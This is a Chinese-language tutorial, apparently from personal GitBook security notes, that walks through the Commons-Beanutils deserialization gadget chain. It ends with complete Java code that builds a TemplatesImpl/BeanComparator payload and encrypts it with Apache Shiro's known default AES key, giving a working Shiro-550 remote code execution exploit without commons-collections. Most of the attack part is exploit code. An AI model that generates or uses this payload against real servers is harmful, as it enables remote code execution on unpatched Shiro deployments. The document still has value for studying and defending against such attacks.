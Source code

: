 # 0x01 Apache Commons Beanutils

Apache Commons Beanutils 是 Apache Commons 工具集下的另一个项目
它提供了对JavaBean的一些操作方法

```java
<dependency>
    <groupId>commons-beanutils</groupId>
    <artifactId>commons-beanutils</artifactId>
    <version>1.8.3</version>
</dependency>
```

commons-beanutils中提供了一个静态方法 PropertyUtils.getProperty ，让使用者可以直接调用任意JavaBean的getter方法。

如对于下面这个POJO：

```java
public class Dog {
    private String name = "taco";

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }
}
```

```java
public static void main(String[] args) throws Exception {
    System.out.println(PropertyUtils.getProperty(new Dog(), "name"));
    // taco
}
```

`getProperty`会找到该对象的getter方法，调用并得到返回值

`BeanComparator` 是`commons-beanutils`提供的用来比较两个JavaBean是否相等的类，其实现了`java.util.Comparator` 接口。

`Comparator`是不是很熟悉？CC2中就利用到了这个接口
下面看看`BeanComparator` 的`compare`方法

```java
public class BeanComparator implements Comparator, Serializable {
    public int compare(Object o1, Object o2) {
        if (this.property == null) {
            return this.comparator.compare(o1, o2);
        } else {
            try {
                Object value1 = PropertyUtils.getProperty(o1, this.property);
                Object value2 = PropertyUtils.getProperty(o2, this.property);
                return this.comparator.compare(value1, value2);
            }   // catch Exceptions...
        }
    }
}
```

若property为空，直接比较两个对象；
若property不为空，则分别获取两个对象的property属性并比较

# 0x02 Weave POC

回忆`TemplatesImpl`的利用链

> TemplatesImpl#getOutputProperties() ->
> TemplatesImpl#newTransformer() ->
> TemplatesImpl#getTransletInstance() ->
> TemplatesImpl#defineTransletClasses() ->
> TransletClassLoader#defineClass()

`getOutputProperties`以get开头，满足`PropertyUtils.getProperty`对getter的定义

且该方法是public的，利用`PropertyUtils.getProperty`调用到getter

```java
public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
    Class clazz = obj.getClass();
    Field field = clazz.getDeclaredField(fieldName);
    field.setAccessible(true);
    field.set(obj, newValue);
}
public static void main(String[] args) throws Exception {
    TemplatesImpl obj = new TemplatesImpl();
    setFieldValue(obj, "_bytecodes",
                  new byte[][]{ClassPool.getDefault().get(Evil.class.getName()).toBytecode()
                              });
    setFieldValue(obj, "_name", "HelloTemplatesImpl");
    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
    BeanComparator comparator = new BeanComparator();
    PriorityQueue pq = new PriorityQueue(comparator);
    setFieldValue(pq, "size", 2);
    setFieldValue(comparator, "property", "outputProperties");
    setFieldValue(pq, "queue", new Object[]{obj, obj});

    ByteArrayOutputStream barr = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(barr);
    oos.writeObject(pq);
    oos.close();
    System.out.println(barr);
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
    Object o = (Object)ois.readObject();
}
```

![image-20230128121258655](../.gitbook/assets/image-20230128121258655.png)

没找到 `org.apache.commons.collections.comparators.ComparableComparator`类
从包名可看出这个类是来自于`commons-collections`
其实若将`commons-beanutils`版本调高至1.9.2，是能够弹出计算器

下面先看看Shiro下的无依赖利用链

# 无依赖的Shiro反序列化利用链

之前的CC-Shiro中，需要依赖`commons-collections`
实际上Shiro中默认依赖了commons-beanutils

![image-20230128121355330](../.gitbook/assets/image-20230128121355330.png)

Shiro-550中自带依赖`commons-beanutils1.8.3`

若直接发送上面1.9.2的payload，Shiro会报错。

简单来说就是，两个不同版本的库使用了同一个类，这两个类可能有一些方法和属性有了变化，为防止序列化通信的时候因不兼容导致出现隐患，Java在序列化的时候会计算当前类的`serialVersionUID`，反序列化的时候若发现`serialVersionUID`的值不同则会抛出异常。

既然这样，把本地环境的`commons-beanutils`调成和服务器相同即可

但上文发现`commons-beanutils1.8.3`生成payload会报错
没找到 `org.apache.commons.collections.comparators.ComparableComparator`类

下面看看报错点`new BeanComparator();`和`ComparableComparator`有什么关系

![image-20230128122314141](../.gitbook/assets/image-20230128122314141.png)

调用`BeanComparator`的无参构造时，会默认使用`ComparableComparator.getInstance()`

既然Shiro的默认依赖里面没有 `org.apache.commons.collections.comparators.ComparableComparator`
我们需要找到平替

需要满足如下条件：

- 实现 `java.io.Serializable` 接口
- 实现 `java.util.Comparator` 接口
- 最好是java或shiro自带的

找到了`CaseInsensitiveComparator`
这个类是`java.lang.String`下的内部私有类
我们通过`String.CASE_INSENSITIVE_ORDER`来获取

![image-20230128122643559](../.gitbook/assets/image-20230128122643559.png)

```java
public class CB1 {
    public static void setFieldValue(Object obj, String fieldName, Object newValue) throws Exception {
        Class clazz = obj.getClass();
        Field field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, newValue);
    }
    public static void main(String[] args) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes",
                new byte[][]{ClassPool.getDefault().get(Evil.class.getName()).toBytecode()
        });
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue pq = new PriorityQueue(comparator);
        setFieldValue(pq, "size", 2);
        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(pq, "queue", new Object[]{obj, obj});

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(pq);
        oos.close();
//        System.out.println(barr);
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
//        Object o = (Object)ois.readObject();
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(barr.toByteArray(), key);
        System.out.printf(ciphertext.toString());
    }
}
```

![image-20230128123757562](../.gitbook/assets/image-20230128123757562.png)